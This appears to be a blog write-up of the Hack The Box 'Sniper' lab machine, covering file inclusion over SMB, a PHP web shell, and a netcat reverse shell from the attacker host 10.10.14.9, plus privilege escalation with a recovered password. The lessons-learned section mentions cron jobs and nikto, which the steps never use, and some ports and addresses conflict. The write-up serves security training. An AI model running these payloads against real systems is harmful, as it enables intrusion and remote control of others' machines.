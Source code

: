 ```yaml
---
title: "Sniper"
date: 2023-06-24T23:52:47+02:00
tags: ["web","windows","smb","LFI"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Sniper.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Room Information

- Room name: Sniper
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Sniper

![Untitled](/HTB/Sniper.png)

## Tools Used

- nmap
- gobuster
- whatweb
- smbserver.py
- nc
- python3 -m http.server

## Port Scanning

![Untitled](/HTB/escaneo-sniper.png)

In the port scan we can see that there are multiple ports open, like 80 (web server), 445 (Samba) ...

## Enumeration

As always first thing i'm going to do is:

```bash
whatweb 10.10.10.151
```
![/Untitled](/HTB/whatweb-sniper.png)

This results show me that the JQuery version is relatively outdated, and the machine is Windows.

So let's find something on the web:
 - First thing as always do ctrl+shift+u to see the source code of the page (nothing relevant)

Soon I realized this error that had the page:

![Untitled](/HTB/php-error-sniper.png)

I started trying common Windows files to test if it is a Local File Inclusion (LFI) vulnerability. 
However, this wouldn’t get me far since I can only view files and not execute any commands or view 
directories structure and contents. At most, I could try to brute-force in a search for other files.
I need to find a way to achieve code execution on the machine.

Here I leave the commands I used to test the error until I realized that I was indeed facing a vulnerability:

```bash
http://10.10.10.151/blog/?lang=test
http://10.10.10.151/blog/?lang=\Windows\System32\Drivers\etc\hosts
http://10.10.10.151/blog/?lang=\inetpub\wwwroot\index.php -> with the intention that I return the php code of the page
http://10.10.10.151/blog/?lang=php://filter/convert.base64-encode/resource=\inetpub\wwwroot\index.php -> with the intention 
that we do not interpret the PHP code
```
Now instead of try to introduce a local element of the machine, I'm going to try to introduce a extern element of my
fisical sistem:

 - The first attempt was to open a web server with `python3 -m http.server 80` and then modify the url of the machine 
   like this `http://10.10.10.151/blog/?lang=http://10.10.14.5/nmap`, to try to point to my address and see 
   if I received any requests. Nothing well.

 - The second attempt was to create a server with SMB  with `smbserver.py smbFolder $(pwd) -smb2support` to share the 
   smbfolder folder and modify the url as follows `http://10.10.10.151/blog/?lang=//10.10.14.5/smbFolder/test`. 
   We have connection !!!

   ![Untitled](/HTB/smbserver-sniper.png) 

   what should happen is that we would have to see the NTLM hash of version 2, but in this case it does not come out, 
   so maybe we are having a problem with the service we are offering, and we are also supporting version 2 of smb. 

 - The third attempt was to use the same command on our system `smbserver.py smbFolder $(pwd) -smb2support`, but in
   this case I put this files {escaneo, nc64.exe, exploit.php } inside the directory we were sharing via smb with the victim machine.

   I personaly create a php code that which downloads the payload.php to a temporary directory that we create on 
   the victim machine, and then executes it. Before modifying the url of the web page so that it 
   points `http://10.10.10.151/blog/?lang=\10.10.14.9.9\smbFolder\payload.php` to our shared smb server, we have 
   to raise the server on port 8000 in our kali with `python3 -m http.server` and listen on port 4444 to receive
   the reverse shell with `nc -nlvp 443`, and ready!

   The content of payload.php is:

	```php
	<?php
        function uploadFile($file){
                $url = "http://10.10.14.9:8000/" . $file;
                $file_name = "C:\\temp\\" . $file;
                if(file_put_contents($file_name, file_get_contents($url))){
                        echo "File download successfully";
                } else{
                        print($file_name);
                        echo "File downloading failed";
                }
        }

        function makeTempDir(){
                system("mkdir C:\\temp");
        }


        function reverseShell($shell){
                system("C:\\temp\\nc64.exe 10.10.14.9 4444 -e " . $shell);
        }

        $file = "nc64.exe";
        $shell = "powershell";

        makeTempDir();
        uploadFile("nc64.exe");
        reverseShell($shell);

	?>

	```

   This is more or less the set:

   ![Untitled](/HTB/previo-sniper.png)

   Then, the machine pawned jejeje

   ![Untitled](/HTB/reverseShell-sniper.png)



 - Other posible way is instead using payload.php is using this php code:

	```php
	<?php
		system($_REQUEST['cmd'])
	?>
	```

   Which allows us to use the url as if it were cmd:

   ![Untitled](/HTB/otraForma-sniper.png)


## Escalation of privileges

The first I do is `whoami` to kwnow what user I'm using. Then I search for any interesting document
like a *.db where I found a password `36mEAhz...`  and a user called Sniper.

![Untitled](/HTB/psw-sniper.png)

Then I use this command -> `net users` to know how many users there are in the Sniper machine and his names.

After thatI realized that we can use powershell and declare some variables like credentials, password,
and user, to use a Invoke-Command on user Sniper/chris and send a revershe sell to our kali.

```bash
$user = "Sniper\chris"
$password = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $password)
Invoke-Command -Credential $cred -ComputerName Sniper -ScriptBlock { \\10.10.14.9\smbFolder\nc64.exe 10.10.14.9 443 -e cmd }
```
In me Kali I'm listenning the 443 port using -> `nc -nlvp 443`
Before that we have the user **chris**, and the Flag !!!
## Leason Learned
- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.
**Thank you for reading, and happy hacking! 😄**
